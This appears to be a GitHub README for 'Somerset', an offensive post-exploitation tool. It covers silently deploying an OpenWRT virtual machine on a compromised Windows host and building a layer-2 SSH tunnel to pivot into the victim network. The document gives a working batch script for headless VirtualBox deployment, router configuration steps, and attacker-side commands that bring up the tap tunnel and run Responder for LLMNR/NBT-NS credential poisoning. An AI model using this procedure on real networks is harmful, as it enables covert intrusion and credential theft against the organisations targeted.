# Somerset: Offensive Router for Windows Pivoting

Somerset - is a small **ash** script to prepare OpenWRT for an L2 VPN SSH tunnel for post-exploitation against Windows

![](/poc-images/somerset-cover.png)

> Cover

# Scenario

This is a very specific vector of pivoting, which is a quiet installation of VirtualBox on compromised Windows. The attacker then creates a virtual machine with OpenWRT in the same quiet mode by connecting a specially prepared OpenWRT VDI disk. It is important to realize that this vector requires local administrator rights on a Windows machine.

The most important point here is for the OpenWRT interface in the Vbox to be in post mode and not have an promiscuous mode. This is necessary to initiate exactly the L2 tunnel to conduct link layer attacks, utilize Responder, and so on. This vector is good because it works from anywhere in the infrastructure, since everything will be encapsulated in the SSH tunnel.

It is important to prepare a VDI image in advance. You can convert it from `.img`, here is an example:

I used the OpenWRT image version 19.07.6:

```powershell
C:\Program Files\Oracle\VirtualBox>vboxmanage.exe convertdd "C:\openwrt\openwrt.img" "C:\openwrt\openwrt.vdi" 

Creating dynamic image with size 285736960 bytes (273MB)...
```

```powershell
C:\Program Files\Oracle\VirtualBox>vboxmanage.exe modifyhd --resize 512 "C:\openwrt\openwrt.vdi" 
0%...10%...20%...30%...40%...50%...60%...70%...80%...90%...100%
```

![](/poc-images\research-scheme.jpg)

> Research Scheme

# SSH Dropbear Issue

By default, OpenWRT uses the dropbear implementation for SSH. It does not know how to work with SSH tunnels. Therefore, it will be replaced by `openssh-server`

# Script Mechanics

This script turns an OpenWRT router into an SSH pivoting tool. It does the following:

1) Installation of necessary packages: `ss`, `ip-full`, `kmod-tun`, `openssh-server`
2) Turns off unnecessary DNS and HTTP services, they will only interfere with the pivoting process
3) Replaces `dropbear`, changes its port to 2222, shuts down the daemon. That is, it replaces `dropbear` with `openssh-server`
4) Configuring interfaces. OpenWRT already has a `br-lan` bridge. The task is to create a tap0-interface, enable it and move it to this bridge. And also to activate the unshared mode everywhere.

You should also configure `rc.local` to get the address automatically when you start OpenWRT. This is very important when you deploy the router to a victim. You will need to find this address from the target network. You can scan port 22, since it will always be used on OpenWRT.

```
vi rc.local

udhcpc -i br-lan
echo "nameserver 8.8.8.8" > /etc/resolv.conf
```


# Silent OpenWRT Deployment

A small .bat script to automate the creation of an OpenWRT virtual machine

### wrt_vbox_deploy.bat

View the list of adapters in the system

```powershell
Get-NetAdapter
```

```powershell
@echo off

set VMNAME=Somerset
set VMMEMORY=512
set VMCPUS=1
set VMDISK=C:\openwrt\openwrt.vdi
set VMNIC1=bridged
set VMADAPTER1=" " # Specify here the interface of the real Windows operating system
set VMPROMISC1=allow-all

"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" createvm --name "%VMNAME%" --register
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --memory %VMMEMORY% --cpus %VMCPUS%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" storagectl "%VMNAME%" --name "SATA Controller" --add sata --controller IntelAHCI
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" storageattach "%VMNAME%" --storagectl "SATA Controller" --port 0 --device 0 --type hdd --medium "%VMDISK%"
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --nic1 %VMNIC1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --bridgeadapter1 %VMADAPTER1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" modifyvm "%VMNAME%" --nicpromisc1 %VMPROMISC1%
"C:\Program Files\Oracle\VirtualBox\VBoxManage.exe" startvm "%VMNAME%" --type headless
```

```powershell
C:\openwrt\wrt_vbox_deploy.bat
```

# Tunnel Init

For the script to work correctly, it must be processed for execution in the ASH shell. You need to send this ASH script to OpenWRT somehow, I don't think you'll have a problem with that. You can even use `vsftpd` for that.

```bash
cursed@kali:~$ ssh root@<OpenWRT IP>
```

```
root@OpenWrt:/# sed -i 's/\r//' somerset.ash
root@OpenWrt:/# chmod +x somerset.ash
root@OpenWrt:/# ash somerset.ash
```

You don't have to worry about silence on the OpenWRT side. It doesn't make noise on the air, it doesn't even transmit hostname via DHCP. After running the script, a tap0-interface will be prepared. Now it is the attacker's task to initiate the tunnel from his side.

## Attacker Side

It is also important to create a /32 route to the OpenWRT endpoint before initiating the SSH tunnel to avoid disconnecting the connection

```bash
cursed@kali:~$ sudo route add -net <openwrt_ip> netmask 255.255.255.255 gw <gw_ip>
```

```bash
cursed@kali:~$ sudo ssh -oHostKeyAlgorithms=+ssh-rsa -oTunnel=ethernet -w 0:0 root@<OpenWRT IP>
cursed@kali:~$ sudo ip link set tap0 up
cursed@kali:~$ sudo dhclient -v tap0; sudo route del default
cursed@kali:~$ sudo responder -I tap0 -vvv
```

# Proof of Concept (LLMNR/NBT-NS Poisoning, Scanning)

![](/poc-images/cursedpivoting-dhcpaddr.png)

> Address received

![](/poc-images/cursedpivoting-responder.png)

> LLMNR/NBT-NS Poisoning

![](/poc-images/cursedpivoting-netdiscover.png)

> ARP Scanning

# Outro

This is an extremely specific vector of pivoting, however I have proven its practicality.
